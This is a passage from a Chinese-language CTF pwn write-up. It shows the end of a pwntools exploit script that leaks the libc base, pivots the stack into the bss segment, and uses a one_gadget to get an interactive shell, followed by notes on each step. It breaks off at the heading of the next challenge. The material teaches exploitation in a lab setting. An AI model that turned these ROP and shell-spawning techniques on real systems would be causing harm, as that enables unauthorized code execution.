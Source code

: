 ```bash
leak('libc_base',libc_base)
system=libc_base+libc.symbols['system']
leak('system',system)

ru("Welcome to Stack bank,Tell me what you want\n")
pl3='a'*0x60+p64(bank)+p64(leave_ret)
s(pl3)
one_gadget=libc_base+0x4526a

ru("Done!You can check and use your borrow stack now!\n")
pl4=p64(0) + p64(one_gadget) +p64(0)*10
#pl4=p64(0)+p64(rdi_addr)+p64(next(libc.search('/bin/sh\00')))+p64(system)
s(pl4)

p.interactive()
```

[![](assets/1701612250-744faa939e509dacb9a61a6a0a950da9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725214656-b8b76e2e-2af1-1.png)

继续解释一下 exp

*   第一个框，这里是将栈迁移到 bss 段，但是得留出一段写入 ROP 链的地方，所以我这里是在 bss 段多偏移了 0xc0 的距离，留了很大的一块空间
*   第二个框，这里就是引用了一段 gadget 进行泄露 puts 的 got 表，之后再返回 main()
*   第三个框，这里就是再进行一次栈迁移
*   第四个框，将我们的 onegadget 写入栈帧，后面的 p64(0)\*7 是为了保持栈的完整性

##### 后话

这里有个点需要注意，这个题目需要在 exp 前面加上一个 #coding=utf-8，不然我们 ru 接收不了，编码的问题

### \[Black Watch 入群题\]PWN

#### 第一个 read 不存在溢出，第二个 read() 存在溢出

**file&checksec**
